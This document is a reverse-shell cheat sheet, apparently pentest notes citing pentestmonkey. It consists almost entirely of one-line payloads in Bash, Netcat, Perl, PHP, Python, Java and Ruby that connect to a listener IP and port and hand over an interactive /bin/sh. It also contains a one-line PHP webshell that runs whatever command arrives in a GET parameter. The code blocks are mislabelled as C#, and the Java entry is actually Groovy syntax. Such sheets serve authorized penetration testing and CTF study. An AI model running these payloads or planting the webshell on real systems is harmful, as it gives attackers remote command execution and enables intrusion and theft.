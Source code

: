 # Reverse Shell

## Bash

```csharp
bash -i >& /dev/tcp/10.11.0.138/4444 0>&1
```

## Netcat

```csharp
nc -e /bin/sh 10.10.14.85 12345
```

OR

```csharp
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Perl

```csharp
perl -e 'use Socket;$i="10.10.15.38";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP

```csharp
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## PHP Webshell

```csharp
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

## Python

```csharp
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.85",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Java

```csharp
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()
```

## Ruby

```csharp
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## References

{% embed url="http://pentestmonkey.net/" %}

